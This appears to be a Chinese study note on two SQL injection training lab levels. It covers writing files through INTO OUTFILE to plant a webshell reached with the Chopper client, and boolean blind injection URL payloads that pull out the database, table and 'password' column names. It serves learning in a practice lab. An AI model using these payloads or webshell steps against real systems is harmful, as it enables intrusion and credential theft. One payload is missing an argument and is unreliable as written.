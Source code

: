         通体思路，检查注入点注入类型，检查显示字段数，爆库名表命字段，输出

    [![0j1HkF.jpg](https://s1.ax1x.com/2020/10/18/0j1HkF.jpg)](https://imgchr.com/i/0j1HkF)

***

# less7(outfile文件写入字符型)

*  原理

        对服务器上的文件有写入的权限，可以写入小马用菜刀连接从而获取数据库权限

        需求:

        1.知道文件在服务器上的绝对路径

        2.文件大小要小于*max_allowed_packet*

        3.*secure_file_priv*的值为空，否则只能读写其中包括的文件



        命令：

        `select 1，2，3 into outfile "绝对地址" %23`
*  步骤

1.测验文件内的闭合方式






***
# less 8(单引号get布尔盲注)
*  原理

        bool盲注，出现错误的时候没有错误提示，只有页面回显的差别，查看当前源码得知，当传参正确时就会显示you are in，所以只根据页面的对与错来判断语句是否执行正确

        而且要得知数据库名表命列名都要一步一步地试出来，过程非常缓慢，通过脚本或者使用sqlmap工具会大大提高效率

*  步骤

        1.获取当前数据库长度

        `?id=-1' and length(database())=(数字)`

        2.获取数据库名称

        `?id=-1' and left(database())='英文字母'`

        3.获取表名列名同样是爆破

        `?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' --+`


        `?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' --+`

        ps:在爆破单个字母是时使用二分法可以大大缩减所用的时间，灵活运用大于小于号，快速定位字母的位置
